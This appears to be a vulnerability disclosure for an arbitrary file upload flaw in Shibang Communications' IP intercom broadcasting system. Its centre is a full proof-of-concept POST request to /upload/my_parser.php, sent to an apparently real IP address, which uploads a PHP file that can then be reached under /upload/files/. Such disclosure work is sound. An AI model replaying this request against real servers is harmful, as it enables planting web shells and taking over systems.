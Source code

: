 There is an arbitrary file upload vulnerability in the IP network intercom broadcasting system of Shibang Communications Co., Ltd.

verison:v1.0

Vulnerability location:/upload/my_parser.php

1.My_parser.php directly uploads files to the /upload/files folder without any filtering for file uploads, causing arbitrary files to be uploaded.

![image](https://github.com/heidashuai5588/cve/assets/165545542/52749e51-3a38-40ad-9983-082280dda651)

![image](https://github.com/heidashuai5588/cve/assets/165545542/da4fd975-cbbf-4922-93ea-ccd34ae7f089)

2. Upload 123.php to the target server through POC
POC
```
POST /upload/my_parser.php HTTP/1.1
Host: 58.242.236.26:22222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------316190348235048577772059862095
Content-Length: 241
Origin: http://58.242.236.26:22222
Connection: close
Referer: http://58.242.236.26:22222
X-Forwarded-For: 1.1.1.1

-----------------------------316190348235048577772059862095
Content-Disposition: form-data; name="upload"; filename="123.php"
Content-Type: application/octet-stream

1233
-----------------------------316190348235048577772059862095--
```
![image](https://github.com/heidashuai5588/cve/assets/165545542/b3db2239-30e5-4d3c-8ca6-6248212d5c4a)

3.Visit /upload/files/123.php
![image](https://github.com/heidashuai5588/cve/assets/165545542/07aa7c3f-1eac-43ea-9f31-7599692e2bdc)


